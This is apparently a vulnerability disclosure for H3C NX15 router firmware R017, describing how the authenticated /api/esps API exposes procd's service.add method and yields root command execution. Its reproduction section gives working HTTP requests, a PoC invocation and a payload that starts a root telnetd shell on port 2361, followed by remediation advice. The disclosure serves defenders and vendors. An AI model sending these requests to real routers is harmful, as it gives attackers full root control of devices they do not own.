# H3C NX15 R017 Exposed `service.add` Authenticated Root Command Execution

## Summary

H3C NX15 Router firmware NX15V100R017 exposes the raw ubus object `service` through the authenticated `/api/esps` web API. The `service.add` method allows callers to register a new procd service instance and define the service command. Because the service manager runs with root privileges, an authenticated web administrator can execute arbitrary commands as root.

## Vendor and Product

- Vendor: H3C
- Product: NX15 Router
- Affected firmware: NX15V100R017 / R017
- Component: `/api/esps` backend RPC
- Exposed object: `service`
- Exposed method: `add`

## Vulnerability Type

- Improper exposure of dangerous system function
- Command execution through exposed service-management RPC
- Suggested CWE: CWE-749 Exposed Dangerous Method or Function
- Attack vector: Remote
- Authentication required: Yes
- Privileges required: Administrator web session
- User interaction required: No

## Impact

An authenticated attacker can register a service instance that executes attacker-controlled commands as root. Confirmed impact includes starting a root shell service and executing commands with UID 0.

## Technical Details

Runtime object enumeration confirmed that the raw ubus object `service` exposes service-management methods including:

```text
service.add
service.set
service.delete
service.list
service.update_start
service.update_complete
```

The authenticated `/api/esps` backend can forward requests to this object. The `service.add` method accepts service metadata and instance definitions, including an attacker-controlled command array:

```json
{
  "name": "pocsvc",
  "script": "/bin/true",
  "instances": {
    "instance1": {
      "command": [
        "/bin/sh",
        "-c",
        "id >/tmp/service_rce_marker"
      ],
      "respawn": {
        "threshold": 3600,
        "timeout": 5,
        "retry": 1
      }
    }
  }
}
```

Because the service manager executes registered commands as root, exposing this method to the web management API crosses a critical trust boundary.

The request flow is:

```text
POST /api/esps
  -> authenticated /www/api /esps handler
  -> lua /usr/lib/lua/protol_cvt.lua magic_link '<request-body>'
  -> /usr/lib/lua/magic_link/magic_link.lua maps object="service", method="add"
  -> raw ubus method service.add
  -> procd registers and starts the attacker-controlled instance command
```

As with `file.exec`, this is not primarily a shell-metacharacter parsing issue. The attacker supplies a valid JSON command array to a privileged service-management RPC that should never have been reachable from the remote web interface.

### Backend Execution Evidence

The backend that actually implements `service.add` is the system service manager:

```text
/sbin/procd
```

This is the important architectural point: `ubus` is only the RPC transport. It does not start services by itself. The execution path is:

```text
authenticated /api/esps request
  -> /www/api
  -> Lua ubus forwarding layer
  -> ubus call service.add
  -> /sbin/procd ubus object "service"
  -> service handler
  -> instance creation / instance start
  -> fork()
  -> execvp(...)
```

Static reverse engineering of `/sbin/procd` shows that the raw ubus object `service` is registered locally and exposes the expected management methods. The method table contains entries for:

```text
service.set
service.add
service.list
service.delete
service.update_start
service.update_complete
service.event
service.validate
service.get_data
```

The critical `add` and `set` paths share the same backend handler. In the recovered `procd` code path:

- `ubus_init_service()` registers the `service` object.


- The method table binds both method `"set"` and method `"add"` to handler `service_add_or_set`.


- `service_add_or_set` parses service-level fields such as `name`, `script`, `instances`, `triggers`, and `validate`.
- When a service does not already exist, `service_add_or_set` logs `Create service %s`, allocates a new service object, and passes control to `service_apply_update`.


- `service_apply_update` processes `instances`, creates a new instance object for each supplied instance entry, and calls `instance_init()`.


- `instance_init()` parses instance-level fields including `command`, `env`, and `respawn`, storing the attacker-controlled command array inside the instance structure.
- The instance list callback `service_instance_vlist_update` handles new instances and calls `instance_start()` for freshly created ones.



- `instance_start()` forks a child and passes control to `instance_exec_child`.


- `instance_exec_child` prepares the execution environment, applies `setenv(...)` for attacker-supplied environment entries, builds `argv` from the `command` array, optionally applies UID/GID changes if a `user` is configured, and finally reaches `execvp(...)`.



This shows that the attacker does not need shell metacharacter injection in the traditional sense. The attacker is allowed to provide the exact argument vector that `procd` will execute. If the attacker chooses:

```json
"command": ["/bin/sh", "-c", "echo SERVICE_RCE_OK >/tmp/service_rce_marker; telnetd -p2361 -l /bin/sh"]
```

then `procd` will spawn `/bin/sh` with that argument vector. If the attacker instead provides another executable directly, `procd` will execute that program through `execvp()` without any shell parsing requirement.

An additional strong consistency check comes from `service_start_early()` inside `procd`. That function internally constructs a blob containing:

- `instances`
- `instance1`
- `command`
- `respawn`

and then directly invokes the same `add` handler. This demonstrates that the externally supplied JSON structure used in the PoC matches the native `procd` service schema rather than an accidental or malformed input pattern.

Because the attack path does not specify a non-root service user, the spawned instance runs with `procd`'s default privileges, which are root on the target device.

## Firmware Paths for Audit

The following paths are firmware-internal paths relative to the extracted firmware root filesystem:

- `/www/api`: web API binary that accepts authenticated `/api/esps` requests and forwards them to ubus objects.
- `/usr/lib/lua/protol_cvt.lua`: Lua protocol bridge that decodes the JSON request and issues the ubus call.
- `/usr/lib/lua/magic_link/magic_link.lua`: direct `object/method/param` to `path/func/args` mapping for `/api/esps`.
- `/sbin/procd`: ubus backend provider for object `service`; parses `service.add`, creates service instances, and starts the attacker-controlled command.
- `/bin/sh`: command interpreter used by the PoC service command.

## Reproduction

Run the included PoC with valid administrator credentials:

```bash
python3 poc/postauth_service_add_rce.py \
  --base http://192.168.8.1 \
  --username admin \
  --password '<admin-password>' \
  --port 2361
```

The PoC:

1. Authenticates to the web interface.
2. Calls `/api/esps` with object `service` and method `add`.
3. Registers a service instance whose command starts a temporary shell service.
4. Connects to the shell and verifies root execution.

Expected result:

```text
uid=0(root)
```

Manual request sequence:

1. Authenticate through `POST /api/login/auth` and capture the `session`.
2. Optionally delete a previous test service with the same name.
3. Send:

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
Content-Type: application/json
AUTHENTICATION: <session>

[{"id":1,"object":"service","method":"add","param":{"name":"pocsvc","script":"/bin/true","instances":{"instance1":{"command":["/bin/sh","-c","echo SERVICE_RCE_OK >/tmp/service_rce_marker; telnetd -p 2361 -l /bin/sh"],"respawn":{"threshold":3600,"timeout":5,"retry":1}}},"triggers":[],"validate":[]}}]
```

4. Connect to `telnet 192.168.8.1 2361` and run `id`.
5. Delete the temporary service after verification.

BurpSuite step-by-step reproduction:

1. Authenticate in Burp Repeater:

```http
POST /api/login/auth HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
Connection: close

{"username":"admin","password":"admin123"}
```

2. Extract `data.session`. Optionally delete a previous test service:

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
AUTHENTICATION: <SESSION>
Connection: close

[{"id":1,"object":"service","method":"delete","param":{"name":"ctfsvc2"}}]
```

3. Register the malicious service instance:

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
AUTHENTICATION: <SESSION>
Connection: close

[{"id":1,"object":"service","method":"add","param":{"name":"ctfsvc2","script":"/bin/true","instances":{"instance1":{"command":["/bin/sh","-c","echo SERVICE2_RCE_OK >/tmp/service_rce_marker2; telnetd -p2361 -l /bin/sh"],"respawn":{"threshold":3600,"timeout":5,"retry":1}}},"triggers":[],"validate":[]}}]
```

4. Wait briefly and connect:

```bash
telnet 192.168.8.1 2361
```

or:

```bash
nc 192.168.8.1 2361
```

5. Run:

```sh
id
uname -a
cat /tmp/service_rce_marker2
```

6. Delete the temporary service after verification:

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
AUTHENTICATION: <SESSION>
Connection: close

[{"id":1,"object":"service","method":"delete","param":{"name":"ctfsvc2"}}]
```

## Evidence

- The Lua `magic_link` layer allows authenticated `/api/esps` callers to target raw ubus object `service` directly.
- Runtime object enumeration confirmed that `service.add` is present and accepts attacker-controlled `instances` and `command` fields.
- Reverse engineering of `/sbin/procd` confirmed that the `service` object is registered locally, that method `add` is bound to `sub_7698()`, and that the request eventually reaches `instance_start()`, `fork()`, and `execvp(...)`.
- Internal `procd` helper `service_start_early()` constructs the same native schema used by the PoC, including `instances`, `instance1`, `command`, and `respawn`.
- Runtime testing confirmed that `/api/esps` can invoke `service.add` using an authenticated web session, and the registered command runs as root.

## Attachments

- Report: `report/postauth_service_add_rce_report.md`
- PoC: `poc/postauth_service_add_rce.py`

## Remediation

- Prevent `/api/esps` from forwarding requests to the raw `service` ubus object.
- Add a strict object and method allowlist for web-exposed RPC.
- Deny service creation, service update, and arbitrary command arrays from remote web callers.
- Enforce backend authorization checks based on caller identity and origin, not only web login state.
